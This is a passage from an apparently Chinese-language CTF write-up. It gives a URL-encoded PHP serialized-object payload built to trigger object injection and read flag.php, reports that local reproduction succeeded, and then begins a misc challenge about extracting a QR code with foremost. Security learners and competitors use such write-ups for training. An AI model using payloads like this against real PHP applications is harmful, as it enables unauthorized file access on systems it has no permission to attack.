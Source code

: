 得到如下payload：

```
O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A4%3A%22cool%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A4%3A%22nice%22%3BN%3Bs%3A6%3A%22amzing%22%3Bs%3A71%3A%22O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A3%3A%22sec%22%3A0%3A%7B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A3%3B%7D%22%3B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A6%3B%7D
```

本地复现成功：

![1548595054319](writeup/1548595054319.png)

# MISC1

使用formost得到一个二维码：
